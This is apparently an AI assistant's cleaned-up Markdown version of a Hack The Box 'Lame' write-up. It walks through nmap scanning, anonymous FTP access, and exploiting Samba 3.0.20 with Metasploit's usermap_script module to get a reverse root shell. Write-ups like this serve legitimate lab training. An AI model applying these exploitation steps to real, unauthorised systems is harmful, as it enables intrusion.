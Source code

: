 Here’s a cleaned-up and professional version of your **Lame (HTB) machine** write-up in **Markdown** format, including links and clear structure:

````markdown
# Hack The Box - Lame Write-Up

You can access the machine [here](https://www.hackthebox.com/machines/Lame) on Hack The Box.

- **Target IP:** `10.10.10.3`

---

## 🌐 Initial Scanning

1. **Ping the target to check if it's alive:**
   ```bash
   ping 10.10.10.3
````

2. **Performed an Nmap scan:**

   ```bash
   nmap -sT -Pn -A 10.10.10.3
   ```

   **Nmap Results:**

   * **FTP (21/tcp)**: vsftpd 2.3.4 (Anonymous login allowed)
   * **SSH (22/tcp)**: OpenSSH 4.7p1
   * **SMB (139/tcp)**: Samba 3.0.20-Debian

---

## 🔎 Enumeration

### FTP

* Anonymous login was allowed:

  ```bash
  ftp 10.10.10.3
  ```

  * Logged in as `ftp`, but no useful files were found.

### SMB

* Samba version `3.0.20` was identified.
* Searched for known vulnerabilities and found it was **vulnerable to remote code execution**.

---

## 💥 Exploitation

* Found a matching exploit on [Exploit-DB](https://www.exploit-db.com/) and confirmed it was available in **Metasploit**.

* Launched Metasploit and used the `usermap_script` exploit:

  ```bash
  use exploit/multi/samba/usermap_script
  set RHOST "htb vm ip"
  set lhost "htbvpn ip"
  set lport 4444 #any port
  run
  ```

* Gained a **root shell** successfully.

---

## 🏁 Post Exploitation

* Verified root access with:

  ```bash
  id
  ```

  * Output: `root`

* Retrieved the user and root flag.

---

**Status:** ✅ Root access obtained via Samba RCE vulnerability.

```

Let me know if you want this exported as a PDF or if you’d like to make it into a general HTB exploit report template!
```
